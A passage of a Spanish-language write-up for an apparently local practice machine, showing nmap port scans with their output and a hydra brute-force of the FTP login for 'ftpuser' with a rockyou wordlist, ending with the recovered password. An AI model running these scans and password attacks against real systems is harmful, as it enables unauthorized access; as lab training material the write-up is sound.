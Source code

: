 ```
Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 11:17 EDT
Nmap scan report for 172.26.0.2
Host is up (0.000067s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Hacker Zone
MAC Address: 02:42:AC:1A:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.21 seconds
```

Si nos intentamos conectar al `ftp` veremos que requiere de un usuario, ya que no permite anonimo.

Si nos vamos a la pagina web, veremos que hay una seccion en la que aparecen 3 usuarios.

```
ftpuser sshuser tomcatuser
```

Por lo que nos podriamos crear un diccionario de usuarios y tirarlo con un `rockyou.txt` al servidor `ftp` pero probaremos con el primer usuario solo.

```shell
hydra -l ftpuser -P <WORDLIST> ftp://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-24 11:20:56
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://172.26.0.2:21/
[STATUS] 864.00 tries/min, 864 tries in 00:01h, 14343549 to do in 276:42h, 50 active
[21][ftp] host: 172.26.0.2   login: ftpuser   password: bebita
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 14 final worker threads did not complete until end.
[ERROR] 14 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-24 11:22:06
```
